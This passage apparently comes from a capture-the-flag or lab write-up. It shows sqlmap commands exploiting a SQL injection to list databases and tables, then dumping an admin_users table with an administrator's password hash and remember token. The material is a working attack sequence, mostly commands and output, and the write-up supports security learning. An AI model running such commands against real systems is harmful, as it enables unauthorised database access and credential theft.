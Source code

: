 There is a SQL Injection ! 

Enumerate the databases : 
```bash
sqlmap -r request.req --level=2 --risk=2 --dbs
```

Output : 
```bash
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

We will use ``usage_blog`` : 
```bash
sqlmap -r request.req --level=2 --risk=2 -D usage_blog --tables
```

Output : 
```bash
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Show the content of ``admin_users`` table :
```bash
sqlmap -r request.req --level=2 --risk=2 -D usage_blog -T admin_users --dump
```

Output : 
```bash
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```
